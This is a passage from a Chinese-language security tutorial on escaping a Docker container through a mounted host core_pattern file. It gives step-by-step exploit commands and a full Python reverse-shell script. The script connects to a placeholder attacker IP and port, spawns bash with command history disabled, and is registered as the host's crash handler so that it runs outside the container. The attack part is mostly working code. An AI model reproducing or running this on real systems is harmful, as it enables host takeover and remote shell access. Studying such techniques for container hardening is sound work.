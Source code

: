 #### 3.2.1 漏洞利用

1. 启动容器，将/proc/sys/kernel/core_pattern 挂载到容器的/host/proc/sys/kernel/core_pattern 位置。
2. 通过在容器内执行 <code>cat /proc/mounts | grep docker </code>指令，找到当前容器在宿主机下的绝对路径
3. 在容器内创建反弹 shell 的/tmp/x.py 脚本
4. 执行 <code>echo -e "|$CONTAINER_ABS_PATH/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern</code>指令，使得 Linux 转储机制在程序发生崩溃时能够顺利找到容器内部的“/tmp/.x.py”。因为攻击者在容器中，“/tmp”是容器中的路径，直接使用 <code>echo -e "|/tmp/.x.py \rcore " > /host/proc/sys/kernel/core_pattern</code>无法实现容器逃逸，因为内核在寻找处理内存转储的程序时不会从容器文件系统的根目录开始。
5. 攻击端机器开启反弹 shell 监听
6. 在容器内运行一个可以制造崩溃的程序。

```bash
# 创建并启动一个容器，将/proc/sys/kernel/core_pattern挂载到容器的/host/proc/sys/kernel/core_pattern位置
docker run -it -v /proc/sys/kernel/core_pattern:/host/proc/sys/kernel/core_pattern ubuntu:18.04
# 查找名为core_pattern的文件，如果找到两个，说明可能是挂载了宿主机的procfs
find / -name core_pattern
cat /proc/mounts | grep docker # 返回结果中：workdir=/var/lib/docker/overlay2/5d748dc3bca9db37b2f0d72b2364b4abe4c8b39e878bf1157b407414efae40fe/work
# 安装vim+gcc
apt-get update -y && apt-get install vim gcc -y
```

![89cc3186bd8946e5aee7f43188c17a4a.png](https://s2.loli.net/2023/10/07/kuvr72zQ1m6LdtZ.png)
启动一个容器时，会在/var/lib/docker/overlay2 目录下生成一层容器层，容器层里面包括 diff、link、lower、merged、work 目录，而 docker 容器的目录保存在 merged 目录中，通过此命令找到当前容器在宿主机下的绝对路径，workdir 代表的是 docker 容器在宿主机中的绝对路径。

```bash
# 创建反弹shell脚本 vim /tmp/.x.py
#!/usr/bin/python3
import  os
import pty
import socket
lhost = "IP_ADDRESS"
lport = PORT
def main():
   s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   s.connect((lhost, lport))
   os.dup2(s.fileno(), 0)
   os.dup2(s.fileno(), 1)
   os.dup2(s.fileno(), 2)
   os.putenv("HISTFILE", '/dev/null')
   pty.spawn("/bin/bash")
   # os.remove('/tmp/.x.py')
   s.close()
if __name__ == "__main__":
   main()
```

```bash
chmod 777 /tmp/.x.py
echo -e "|/var/lib/docker/overlay2/5d748dc3bca9db37b2f0d72b2364b4abe4c8b39e878bf1157b407414efae40fe/merged/tmp/.x.py \rcore    " >  /host/proc/sys/kernel/core_pattern
```
